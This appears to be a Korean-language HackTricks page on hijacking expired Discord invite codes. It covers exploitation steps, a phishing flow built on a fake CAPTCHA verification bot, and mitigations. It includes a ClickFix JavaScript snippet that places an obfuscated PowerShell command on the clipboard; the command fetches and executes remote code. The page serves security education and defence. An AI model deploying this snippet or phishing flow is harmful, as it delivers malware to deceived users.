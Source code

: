 # Discord 초대 코드 탈취

{{#include ../../banners/hacktricks-training.md}}

Discord의 초대 시스템 취약점은 위협 행위자가 만료되거나 삭제된 초대 코드를 새로운 맞춤 링크로 주장할 수 있게 합니다(임시, 영구 또는 사용자 정의). 모든 코드를 소문자로 정규화함으로써, 공격자는 알려진 초대 코드를 사전 등록하고 원래 링크가 만료되거나 소스 서버의 부스트가 사라지면 조용히 트래픽을 탈취할 수 있습니다.

## 초대 유형 및 탈취 위험

| 초대 유형               | 탈취 가능? | 조건 / 댓글                                                                                          |
|-----------------------|-------------|-----------------------------------------------------------------------------------------------------|
| 임시 초대 링크         | ✅          | 만료 후, 코드는 사용 가능해지며 부스트된 서버에 의해 맞춤 URL로 재등록될 수 있습니다.                  |
| 영구 초대 링크         | ⚠️          | 삭제되고 소문자와 숫자로만 구성된 경우, 코드는 다시 사용 가능해질 수 있습니다.                        |
| 사용자 정의 맞춤 링크  | ✅          | 원래 서버가 Level 3 Boost를 잃으면, 해당 맞춤 초대는 새로운 등록을 위해 사용 가능해집니다.          |

## 악용 단계

1. 정찰
- `discord.gg/{code}` 또는 `discord.com/invite/{code}` 패턴과 일치하는 초대 링크를 위해 공개 소스(포럼, 소셜 미디어, 텔레그램 채널)를 모니터링합니다.
- 관심 있는 초대 코드를 수집합니다(임시 또는 맞춤).
2. 사전 등록
- Level 3 Boost 권한이 있는 Discord 서버를 생성하거나 기존 서버를 사용합니다.
- **서버 설정 → 맞춤 URL**에서 대상 초대 코드를 할당하려고 시도합니다. 수락되면, 코드는 악의적인 서버에 의해 예약됩니다.
3. 탈취 활성화
- 임시 초대의 경우, 원래 초대가 만료될 때까지 기다립니다(또는 소스를 제어하는 경우 수동으로 삭제합니다).
- 대문자가 포함된 코드의 경우, 소문자 변형은 즉시 주장할 수 있지만, 리디렉션은 만료 후에만 활성화됩니다.
4. 조용한 리디렉션
- 사용자가 이전 링크를 방문하면 탈취가 활성화된 후 공격자가 제어하는 서버로 원활하게 전송됩니다.

## Discord 서버를 통한 피싱 흐름

1. 서버 채널을 제한하여 **#verify** 채널만 보이도록 합니다.
2. 신규 사용자가 OAuth2를 통해 인증하도록 유도하는 봇(예: **Safeguard#0786**)을 배포합니다.
3. 봇이 사용자를 피싱 사이트(예: `captchaguard.me`)로 리디렉션합니다. 이는 CAPTCHA 또는 인증 단계의 가장을 씁니다.
4. **ClickFix** UX 트릭을 구현합니다:
- 깨진 CAPTCHA 메시지를 표시합니다.
- 사용자가 **Win+R** 대화 상자를 열고 미리 로드된 PowerShell 명령을 붙여넣고 Enter를 누르도록 안내합니다.

### ClickFix 클립보드 주입 예시
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
이 접근 방식은 직접 파일 다운로드를 피하고 사용자 의심을 줄이기 위해 친숙한 UI 요소를 활용합니다.

## 완화 조치

- 최소한 하나의 대문자 또는 비알파벳 문자가 포함된 영구 초대 링크를 사용하세요 (만료되지 않으며 재사용할 수 없음).
- 정기적으로 초대 코드를 변경하고 오래된 링크를 취소하세요.
- Discord 서버 부스트 상태 및 맞춤 URL 청구를 모니터링하세요.
- 사용자에게 서버의 진위를 확인하고 클립보드에 붙여넣은 명령을 실행하지 않도록 교육하세요.

## 참고 문헌

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include /banners/hacktricks-training.md}}
